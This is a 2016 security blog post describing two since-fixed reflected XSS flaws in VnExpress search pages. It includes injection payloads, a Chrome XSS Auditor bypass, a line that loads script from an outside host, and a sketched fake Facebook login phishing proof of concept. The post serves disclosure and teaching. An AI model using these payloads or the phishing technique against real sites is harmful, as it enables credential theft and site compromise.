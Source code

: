 +++
Categories = ["security"]
Tags = ["security"]
author = "Cong Nguyen"
authorfacebook = "http://facebook.com/ntcong.it"
authorgoogleplus = "https://plus.google.com/+CongNguyen"
authorlink = "http://ntcong.it"
date = "2016-03-22T16:20:20+07:00"
thumbnail = "/img/vne/vne.jpg"
title = "XSS vulnerabilities on VnExpress"

+++

# XSS on e.vnexpress.net

Recently I found two XSS vulnerabilities on vnExpress website. It all begins with the newly introduced English version of VnExpress, and I didn't have to spend a lot of time to find the search box wasn't escaped properly. Just do a search with "> will reveal this.

{{< figure src="/img/vne/vne1.png" title="XSS on e.VNE" >}}

Pretty serious problem if anyone still doesn't care about escaping user-input, especially on a search box. Luckily, a normal XSS payload will only works on Firefox, because Chrome and IE have XSS Auditor for a while now (you can still bypass it, which I will tell you later). Also because the site doesn't have user account yet, the best I can do is launching a phishing attack (I jut did a PoC to demo what I can do, not really attack anyone).

Phishing is also a serious problem for a big website like VnExpress. People trained to trust VnE and will do most thing the website told them to (like give Facebook's password). So it's pretty simple, I can inject my script in the search page already, I load the main site with jQuery.get, replace the top post with a fake Facebook login, replace the HTML content, and then use window.history.pushState to replace the address bar. This way the site will display the main page with its url, not the search page.

But it's still not very good since it only works on Firefox, so I did a quick look at the HTML source code and found this


{{< highlight js >}}
var strKeyWord  = "">";
var blData      = 0;
{{< /highlight >}}

Why they include the search parameter on a Javascript code, without any protection is beyond me, but this will bypass all the protection XSS Auditor provides to you, because it's not a normal XSS payload anymore, any text you inputed in will run on javascript directly. The new payload will look like this.
{{< highlight js >}}
";alert(1);"
{{< /highlight >}}

And it will not be detected by Chrome or IE's XSS Auditor. Extensible is a must, so I load the script from outside
{{< highlight js >}}
";jQuery.getScript("http://js.js") .done(function() {});"
{{< /highlight >}}

Pretty neat, huh?

What should I do to prevent it? Well XSS is never a simple problem to begin with, but at least never ever trust anything the user input, escape it, whitelist the character, make sure they don't input any special characacter, because no one want to search an article with ";"@(alert(1));" anyway. And NEVER use the input directly onto your javascript, it is very dangerous.


# XSS on vnexpress.net

Then I thought, if they fucked up this bad on their new site, the main site should have some weakness as well. One thing they did a little better is, the main search box is properly escaped, but I noticed they put the whole URL onto the Time and Sort filter, so maybe something will not be escaped, like the "search_f=" parameter.

    http://timkiem.vnexpress.net/?search_f=%22%3E&q=xss&cate_code=&media_type=all&latest=&fromdate=0&todate=0&date_format=all
{{< figure src="/img/vne/vne2.png" title="XSS on VNE" >}}

This time there's no javascript bug on this page, but working only with Firefox is no fun, let's find out how to bypass Chrome.

So Chrome did a great job to find a XSS payload on the URL, and prevent it from running. But there's a flaw: it won't stop an invalid XSS payload, like a script without closing tag. And the HTML parse won't care about the content inside the <script> tag, as long as you include a src attribute. This payload requires you to have a closing </script> tag, which most website nowaday have to execute javascript after the main content finishes loading. The payload looks like this

{{<highlight js>}}
"><script/src=data:,alert(1)%26sol;%26sol;
{{< /highlight >}}

The result html will looks like this: \<script src="data:,alert(1)//&q=xss....">[a lot of HTML]\</script>. Andddd it runs on Chrome. And also it's pretty funny to see VnExpress do some weird shit with their site, results in the alert(1) display several times when the page loads (view count increase maybe?)

Kudos to VnExpress for fixing the bug pretty fast after I reported it to them. But I think they should do something better than having a XSS vuln on the main search box in the first place.
